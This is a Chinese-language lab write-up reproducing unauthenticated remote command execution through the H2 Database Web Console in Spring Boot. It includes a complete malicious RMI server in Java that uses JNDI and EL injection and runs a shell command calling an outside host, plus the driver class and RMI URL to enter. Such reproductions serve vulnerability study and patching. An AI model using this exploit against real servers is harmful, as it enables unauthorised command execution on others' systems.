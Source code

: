 # H2 Database Web Console 未授权访问

## 漏洞描述

H2 database 是一款 Java 内存数据库，多用于单元测试。H2 database 自带一个 Web 管理页面，在 Spirng 开发中，如果我们设置如下选项，即可允许外部用户访问 Web 管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行 JNDI 注入攻击，进而在目标环境下执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e

## 环境搭建

执行如下命令启动一个 Springboot + h2database 环境：

```
docker-compose up -d
```

启动后，访问 `http://your-ip:8080/h2-console/` 即可查看到 H2 database 的管理页面。

## 漏洞复现

目标环境是 Java 8u252，版本较高，因为上下文是 Tomcat 环境，我们可以参考《[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)》，使用 `org.apache.naming.factory.BeanFactory` 加 EL 表达式注入的方式来执行任意命令。

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

我们可以借助这个小工具 [JNDI](https://github.com/JosephTribbianni/JNDI) 简化我们的复现过程。

首先设置 JNDI 工具中执行的命令为 `touch /tmp/success`：

![image-20220223235645410](images/202202232356618.png)

然后启动 `JNDI-1.0-all.jar`，在 h2 console 页面填入 JNDI 类名和 URL 地址：

![image-20220224001157803](images/202202240011878.png)

Driver Class（JNDI 的工厂类）：

```
javax.naming.InitialContext
```

JDBC URL（运行 JNDI 工具监听的 RMI 地址）：

```
rmi://192.168.128.1:23456/BypassByEL
```

点击连接后，恶意 RMI 成功接收到请求：

![image-20220224001238367](images/202202240012570.png)

`touch /tmp/success` 已成功执行：

![image-20220224001248279](images/202202240012334.png)
